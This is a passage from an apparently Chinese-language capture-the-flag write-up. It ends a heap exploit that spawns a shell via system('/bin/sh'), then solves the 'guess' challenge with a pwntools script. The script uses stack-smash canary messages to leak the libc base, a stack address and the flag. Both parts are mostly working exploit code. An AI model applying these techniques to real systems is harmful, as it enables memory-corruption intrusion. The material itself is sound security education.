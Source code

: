 ```
add(0x40,"ZoE\n")
add(0x40,p64(system_addr))

#get_shell
add(0x18,"/bin/sh\x00")
delete()
p.interactive()
```

### guess

网鼎杯的一道guess，猜flag的一道题，只能fork三次。开启了Cannary，采用stack smash来进行信息泄露绕过cannary。同理我们也可以用一样的方法泄露三次，可以按照如下顺序泄露：首先通过got表来泄露libc的基址，接着利用libc中的environ变量来泄露栈的地址，最后通过固定的偏移来泄露栈上存放的flag。

```
# set follow-fork-mod child
from pwn import *
context(arch='amd64', os='linux', endian='little')
#context.log_level='debug'

p = process('./guess')
elf = ELF('./guess')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
print p.recvuntil('This is GUESS FLAG CHALLENGE!')
print p.recvuntil('Please type your guessing flag')
# here is offset to argv[0]
offset = 0x40+0x8*3+(0x7fff42181a88-0x7fff421819b8)
# leak libc base
payload = 'a'*offset+p64(0x602048)
p.sendline(payload)
print p.recvuntil('*** stack smashing detected ***: ')
# 0x7fb8571c1740
libc_start_main = u64(p.recvuntil(' ')[:-1].ljust(8,'\x00'))
libc_base = libc_start_main-libc.symbols['__libc_start_main']
# using environ to leak stack base addr
print "libc_base = " + str(hex(libc_base))
stack_addr_ptr = libc_base+libc.symbols['environ']

print "stack_addr_ptr = " + str(hex(stack_addr_ptr))
print p.recvuntil('Please type your guessing flag')
payload = 'a'*offset+p64(stack_addr_ptr)
pause()
p.sendline(payload)
print p.recvuntil('*** stack smashing detected ***: ')

# 0x7fffe109fde8
stack_addr = u64(p.recvuntil(' ')[:-1].ljust(8,'\x00'))
print "stack_addr = " + str(hex(stack_addr))
# calc flag addr by stack_base-flag_offset
flag_offset = 0x7fffe109fde8-0x7fffe109fc80
flag_addr = stack_addr - flag_offset

print p.recvuntil('Please type your guessing flag')
payload = 'a'*offset+p64(flag_addr)
p.sendline(payload)

print p.recv()
p.interactive()
```
